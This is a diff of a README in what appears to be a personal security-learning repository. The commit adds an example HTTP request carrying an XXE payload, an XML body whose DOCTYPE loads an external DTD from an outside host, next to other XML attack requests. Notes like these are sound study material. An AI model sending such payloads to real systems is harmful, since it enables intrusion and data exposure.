

Before and after one commit to anilarelli/Learning, a Markdown page: README.md, the part around the change. Rendered like a GitHub page; blank space fills up the shorter version.

````diff
--- a/README.md
+++ b/README.md
@@ -528,6 +528,20 @@ when no parameter
 ```
 ```python
 
+	POST /netspi HTTP/1.1
+	Host: someserver.netspi.com
+	Accept: application/json
+	Content-Type: application/xml
+	Content-Length: 139
+
+	<?xml version="1.0" encoding="UTF-8" ?>
+	<!DOCTYPE foo SYSTEM "https://xxe.netspi.com/netspi.dtd">
+	<root>
+	<search>name</search>
+	</root>
+```
+```python
+
                                 POST /action HTTP/1.0
                                 Content-Type: text/xml
                                 Content-Length: 52
````
